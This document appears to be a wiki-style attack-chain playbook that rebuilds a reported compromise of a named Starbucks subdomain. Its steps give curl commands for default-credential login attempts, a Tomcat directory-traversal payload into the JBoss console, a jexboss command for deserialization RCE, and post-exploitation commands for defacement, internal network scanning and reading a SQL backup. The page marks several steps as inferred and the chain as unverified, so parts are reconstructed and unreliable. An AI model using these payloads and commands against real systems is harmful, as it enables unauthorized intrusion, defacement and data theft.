

# Directory Traversal and RCE via Chained Tomcat and JBoss Vulnerabilities in Starbucks Subdomain

Multi-stage attack chain demonstrating a complete server takeover starting from subdomain enumeration to remote code execution and data exfiltration on a vulnerable Starbucks subdomain.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 6 |
| Execution Time | ~30 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/jexboss]]
- Browser or [[commands/curl-browse]]

### Target Environment

- Web platform with Apache Tomcat 5.5.20
- JBoss application server
- Exposed subdomain (e.g., http://www.example.starbucks.com.sg/)
- No authentication on JBoss web console

### Initial Access Requirements

- Public network access to the target subdomain
- No prior credentials needed
- Knowledge of CVE-2007-0450 and CVE-2007-1036

## Detailed Attack Procedures

### Step 1: Enumerate and Analyze Subdomains
procedure: [[procedures/Enumerate-and-Analyze-Subdomains]]

**Objective**: Identify vulnerable subdomains and analyze initial responses to uncover technology hints.

**Instructions**: Use standard enumeration techniques to find subdomains, then access and inspect the 404 page for clues like CMS footers.

For example, enumerate subdomains with tools like subfinder (inferred for completeness):

```bash
subfinder -d starbucks.com.sg -o subdomains.txt
```

Then probe and analyze a discovered subdomain like http://www.example.starbucks.com.sg/ using [[commands/curl-browse]]:

```bash
curl -i http://www.example.starbucks.com.sg/
```

**Expected Output**: 404 page with message 'this website is not in use' and footer 'Copyright 2010 | Built on xxxx CMS'.

**Success Indicators**:
- Subdomain discovered and responsive
- Technology hints (e.g., CMS name) revealed in page source

### Step 2: Discover and Access CMS Login
dprocedure: [[procedures/Discover-and-Analyze-CMS-Login]]

**Objective**: Guess and access the custom CMS path to reach the login form.

**Instructions**: Check common paths like robots.txt, then try the guessed CMS path /xxxx.

Use [[commands/curl-browse]] to test paths:

```bash
curl -i http://www.example.starbucks.com.sg/robots.txt
curl -i http://www.example.starbucks.com.sg/xxxx
```

**Expected Output**: Redirect to /josso/signin login form.

**Success Indicators**:
- Access to login page
- Confirmation of CMS presence

### Step 3: Reveal Tomcat Version via Error Triggering
procedure: [[procedures/Reveal-Tomcat-Version-via-Error-Triggering]]

**Objective**: Trigger an error to expose the backend Tomcat version for vulnerability research.

**Instructions**: Attempt login with default credentials, then manipulate URL paths to force a stack trace.

Simulate login and path manipulation with [[commands/curl-login-attempt]] (inferred):

```bash
curl -X POST http://www.example.starbucks.com.sg/josso/signin -d "username=admin&password=admin"
# Then manipulate: curl http://www.example.starbucks.com.sg/josso/invalidpath
```

**Expected Output**: Apache Tomcat 5.5.20 stack trace in error response.

**Success Indicators**:
- Stack trace visible
- Version 5.5.20 confirmed, vulnerable to CVE-2007-0450

### Step 4: Exploit Directory Traversal to JBoss Console
procedure: [[procedures/Exploit-Directory-Traversal-to-JBoss-Console]]

**Objective**: Bypass proxy using directory traversal to access the unprotected JBoss web console.

**Instructions**: Append traversal payload to the path in requests.

Use [[commands/curl-traversal]]:

```bash
curl http://www.example.starbucks.com.sg/josso/%5C../web-console
```

**Expected Output**: Redirect to localhost JBoss /web-console without authentication.

**Success Indicators**:
- Proxy bypass successful
- Unauthenticated access to admin console (CVE-2007-1036)

### Step 5: Achieve RCE with Jexboss Tool
procedure: [[procedures/Achieve-RCE-with-Jexboss-Tool]]

**Objective**: Exploit Java deserialization in JBoss for remote code execution.

**Instructions**: Route jexboss through the traversal path to target the console.

Configure and run [[tools/jexboss]]:

```bash
python jexboss.py -u "http://www.example.starbucks.com.sg/josso/%5C../web-console/ServerInfo.jsp?type=HTTP"
```

**Expected Output**: Successful deserialization exploit leading to command shell.

**Success Indicators**:
- RCE confirmed via command execution
- Server control achieved

### Step 6: Perform Post-Exploitation Access
procedure: [[procedures/Perform-Post-Exploitation-Access]]

**Objective**: Modify files, recon network, and exfiltrate data post-RCE.

**Instructions**: Use the RCE shell to edit pages, scan network, and access backups.

Example post-RCE commands (via shell):

```bash
# Modify homepage
echo "Hacked" > /var/www/index.html
# Network recon
nmap -sP 192.168.1.0/24
# Access SQL dump
cat /backup/sqldump.sql
```

**Expected Output**: Page modifications visible, network hosts listed, sensitive data retrieved.

**Success Indicators**:
- File changes persisted
- Sensitive data (e.g., SQL dumps) accessed

## Attack Chain Summary

### Key Achievements

1. Discovered and exploited inactive subdomain leading to backend exposure
2. Chained directory traversal with unprotected console for auth bypass
3. Achieved full RCE and data exfiltration via Java deserialization

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Active Scanning]] Active Scanning
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[File and Directory Discovery]] File and Directory Discovery
- [[Exploitation for Client Execution]] Exploitation for Client Execution

### MITRE ATT&CK Tactics

- [[Reconnaissance]] Reconnaissance
- [[Initial Access]] Initial Access
- [[Discovery]] Discovery
- [[Execution]] Execution

---

*Last updated: 2023-10-01T00:00:00Z*
